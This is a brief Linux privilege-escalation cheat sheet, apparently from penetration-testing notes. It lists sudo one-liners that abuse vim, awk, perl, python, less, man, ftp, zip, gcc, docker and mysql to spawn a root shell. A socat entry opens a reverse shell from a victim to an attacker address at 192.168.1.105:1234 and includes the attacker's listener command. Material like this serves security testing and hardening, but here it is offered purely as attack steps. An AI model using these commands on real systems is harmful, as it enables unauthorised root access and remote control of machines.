 Vim
```ps1
sudo vim -c ':!/bin/bash'
```

Awk
```ps1
sudo awk 'BEGIN {system("/bin/bash")}'
```

Perl
```ps1
sudo perl -e 'exec "/bin/bash";'
```

Python
```ps1
sudo python -c 'import pty;pty.spawn("/bin/bash")'
```

Less
```ps1
sudo less /etc/hosts - !bash
```

Man
```ps1
sudo man man - !bash
```

ftp
```ps1
sudo ftp - ! /bin/bash
```

socat
```ps1
Attacker = socat file:`tty`,raw,echo=0 tcp-listen:1234
Victim = sudo socat exec:'sh -li',pty,stderr,setsid,sigint,sane tcp:192.168.1.105:1234
```

Zip
```ps1
echo test > notes.txt
sudo zip test.zip notes.txt -T --unzip-command="sh -c /bin/bash"
```

gcc
```ps1
sudo gcc -wrapper /bin/bash,-s .
```

Docker
```ps1
sudo docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

MySQL
```ps1
sudo mysql -e '\! /bin/sh'
```
